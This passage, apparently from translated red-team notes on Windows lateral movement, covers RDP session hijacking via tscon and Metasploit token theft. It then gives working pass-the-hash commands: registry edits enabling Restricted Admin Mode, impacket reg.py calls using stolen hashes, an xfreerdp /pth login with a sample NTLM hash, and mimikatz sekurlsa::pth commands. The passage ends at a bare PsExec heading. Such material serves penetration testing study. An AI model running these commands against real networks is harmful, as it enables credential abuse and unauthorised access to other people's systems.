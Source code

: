 Under the `SYSTEM` permission, you do not need to verify the password when switching users with `tscon <ID>`. In `MSF`, you can also simulate the specified user token by stealing the specified user process through `steal_token pid`.

![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%202.png)

For more attack methods against the `RDP` protocol, you can see [Utilization of the RDP protocol in Red and Blue Confrontation] (https://www.geekby.site/2021/01/%E7%BA%A2%E8%93%9D%E5%AF%B9%E6%8A%97%E4%B8%ADrdp%E5%8D%8F%E8%AE%AE%E7%9A%84%E5%88%A9%E7%94%A8).

## Use Hash to log in to the rdp remote desktop

When the obtained user Hash cannot be cracked, if you use Hash to remotely log in to RDP, you need to enable Restricted Admin Mode (restricted administrator mode, the main function is to prevent the credentials from being exposed to the target system), it is enabled by default on Windows 8.1 and Windows Server 2012R2, and it is not supported by default on Windows 7 and Windows Server 2008 R2. Patches 2871997 and 2973351 are required.

Modify the registry method to use, the registry location is in `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`.

```powershell
# Create a new DWORD key value DisableRestrictedAdmin, a value of 0 means on, and a value of 1 means off
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v DisableRestrictedAdmin /t REG_DWORD /d 00000000 /f

# Check whether it is enabled DisableRestrictedAdmin, REG_DWORD 0x0 exists to enable it
REG query "HKLM\System\CurrentControlSet\Control\Lsa" | findstr "DisableRestrictedAdmin"

# Use reg.py in the impacket project to modify the registry
# Add registry key
python reg.py <domain>/<user>@<ip> -hashes :<hashe> add -keyName "HKLM\System\CurrentControlSet\Control\Lsa" -v "DisableRestrictedAdmin" -vt "REG_DWORD" -vd "0"

# View registry keys
python reg.py <domain>/<user>@<ip> -hashes :<hashe> add -keyName "HKLM\System\CurrentControlSet\Control\Lsa" -v "DisableRestrictedAdmin"

# Use xfreerdp to connect to rdp
xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:ip /cert-ignore
xfreerdp /u:Administrator /d:dar.com /pth:ac54ecea0c1d055abc1c7b3cfd960068 /v:172.77.4.100

# Use mimikatz to pth
privilege::debug
sekurlsa::pth /user:administrator /domain:dar.com /ntlm:ac54ecea0c1d055abc1c7b3cfd960068 "/run:mstsc.exe /restrictedadmin"
```

# ****Utilization of SMB protocol****

## PsExec remote control
